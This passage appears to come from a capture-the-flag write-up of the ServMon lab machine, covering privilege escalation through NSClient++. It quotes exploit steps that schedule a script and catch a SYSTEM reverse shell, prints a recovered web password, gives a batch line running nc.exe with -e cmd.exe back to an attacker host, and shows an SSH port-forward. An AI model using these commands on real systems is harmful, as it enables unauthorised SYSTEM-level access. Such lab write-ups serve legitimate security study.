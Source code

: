 ```text

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
	- foobar
		interval = 1m
		command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
	nc -nlvvp 443
	listening on [any] 443 ...
	connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
	Microsoft Windows [Version 10.0.17134.753]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Program Files\NSClient++>whoami
	whoami
	nt authority\system
	
Risk:
The vulnerability allows local attackers to escalate privileges and execute 
arbitrary code as Local System
```



```text
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display 

Current password: ew2x6SsGTxjRwXOT
```



```text
#@echo off
c:\Temp\nc.exe 10.10.14.15 4443 -e cmd.exe
```

When logging in, it was found that the login failed. After research, it was found that nsclient.ini would allow access the Web interface only from the specified host. \(127.0.0.1 in this case\)

#### Using SSH to create a redirect tunnel \(Local Port Forwarding\)

{% embed url="https://www.howtogeek.com/168145/how-to-use-ssh-tunneling/" %}

`ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184`

[https://127.0.0.1:8443/index.html\#/](https://127.0.0.1:8443/index.html#/)
